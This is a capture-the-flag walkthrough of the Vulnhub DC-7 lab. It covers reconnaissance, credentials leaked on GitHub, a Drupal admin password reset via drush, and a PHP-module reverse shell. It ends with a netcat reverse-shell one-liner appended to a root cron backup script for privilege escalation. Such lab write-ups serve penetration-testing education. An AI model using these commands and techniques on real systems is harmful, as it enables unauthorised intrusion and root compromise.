 ```yaml
---
"title": "Vulnhub - DC 7"
"date": 2019-11-23
"tags": ["medium", "drupal", "cron"]
"keywords": ["medium", "drupal", "cron"]
"categories": "Vulnhub"
"author": "Ghostbyt3"
"description": "Today, We are going to pwn DC 7 by DCAU7 from Vulnhub"
"featured_image": "/img/dc7/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Vulnhub - Writeup"
---
```



![Untitled](/img/dc7/1.png)
Today, We are going to pwn DC 7 by DCAU7 from Vulnhub


## Description
>DC-7 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
While this isn't an overly technical challenge, it isn't exactly easy.
While it's kind of a logical progression from an earlier DC release (I won't tell you which one), there are some new concepts involved, but you will need to figure those out for yourself. :-) If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.
What you will need to do, is to think "outside" of the box.
Waaaaaay "outside" of the box. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

Download Link : [https://www.vulnhub.com/entry/dc-7,356/](https://www.vulnhub.com/entry/dc-7,356/)

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:02:e9:c7:5d:95:32:ab:10:99:89:84:34:3d:1e:f9 (RSA)
|   256 d0:d6:40:35:a7:34:a9:0a:79:34:ee:a9:6a:dd:f4:8f (ECDSA)
|_  256 a8:55:d5:76:93:ed:4f:6f:f1:f7:a1:84:2f:af:bb:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Welcome to DC-7 | D7
MAC Address: 08:00:27:6F:D5:25 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.12
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/29 18:24:01 Starting gobuster
===============================================================
/.config (Status: 403)
/.cvs (Status: 403)
/.bash_history (Status: 403)
/.hta (Status: 403)
/.cache (Status: 403)
/.git/HEAD (Status: 403)
/.bashrc (Status: 403)
/.forward (Status: 403)
/.cvsignore (Status: 403)
/.passwd (Status: 403)
/.profile (Status: 403)
/.perf (Status: 403)
/.rhosts (Status: 403)
/.mysql_history (Status: 403)
/.listings (Status: 403)
/.sh_history (Status: 403)
/.ssh (Status: 403)
/.svn (Status: 403)
/.subversion (Status: 403)
/.history (Status: 403)
/.htaccess (Status: 403)
/.web (Status: 403)
/.swf (Status: 403)
/.listing (Status: 403)
/.htpasswd (Status: 403)
/.svn/entries (Status: 403)
/Admin (Status: 403)
/admin (Status: 403)
/ADMIN (Status: 403)
/batch (Status: 403)
/core (Status: 301)
/Entries (Status: 403)
/index.php (Status: 200)
/install.mysql (Status: 403)
/install.pgsql (Status: 403)
/modules (Status: 301)
/node (Status: 200)
/profiles (Status: 301)
/robots.txt (Status: 200)
/Root (Status: 403)
/search (Status: 302)
/Search (Status: 302)
/server-status (Status: 403)
/sites (Status: 301)
/themes (Status: 301)
/user (Status: 302)
/vendor (Status: 403)
/web.config (Status: 200)
===============================================================
2019/11/29 18:27:52 Finished
===============================================================
```

## OSINT 

While checking the webpage it is a ``Drupal CMS`` which is one of the well know CMS.
![Untitled](/img/dc7/1.png)

Cant find anything useful on the pages but ``Think outside the box`` It looks like an hint.
At the end of the page it looks like an username[br/](br/)

![Untitled](/img/dc7/2.png)

Mostly this ```@``` use in social medias so i searched for the user and found an account on twitter.[br/](br/)
![Untitled](/img/dc7/3.png)

And there is a github link
>https://github.com/Dc7User/

## Getting User Credentials

While checking the repo found some credentials.
![Untitled](/img/dc7/4.png)

I tried login in drupal but cant so i tried in ssh.
>dc7user:MdR3xOgB7#dW

![Untitled](/img/dc7/5.png)

And it worked!!

First is first I checked the home directory and found there is a script running.[br/](br/)
![Untitled](/img/dc7/6.png)

Inside ``backup.sh`` I found ``drush`` which is drupal shell

![Untitled](/img/dc7/8.png)

And the script running as root and www-data so , If we became ``www-data`` and we can get reverse shell using ``backup.sh`` and we can get ``root``.

![Untitled](/img/dc7/7.png)

Since drush is there I googled for drush commands and found 
>https://drushcommands.com/drush-7x/user/user-password/

> drush user-password admin ---password=admin

## Getting Shell as www-data

We successfully logged in with new password ``admin:admin``[br/](br/)
![Untitled](/img/dc7/9.png)

Now its time to get reverse shell and found we can upload modules in ``Extend Tab``[br/](br/)
![Untitled](/img/dc7/10.png)

I found this 
>[https://www.drupal.org/project/php](https://www.drupal.org/project/php)

I clicked on the Install new module button and uploaded this!

![Untitled](/img/dc7/11.png)

After checking its enabled I went to ``Content -> Add content -> basic page`` and then select the ``Text format`` to be PHP code and copy paste the reverse shell code.

![Untitled](/img/dc7/12.png)

Clicking Preview while the listener is running i got the shell and we are ```www-data```
![Untitled](/img/dc7/13.png)


## Privilege Escalation

We already know that the script is running as root and www-data so we can add our reverse shell to get root

``` echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.18 4444 >/tmp/f" >> backups.sh ```

![Untitled](/img/dc7/14.png)

Wait for sometime because cron is running!

![Untitled](/img/dc7/15.png)

We got Root !!












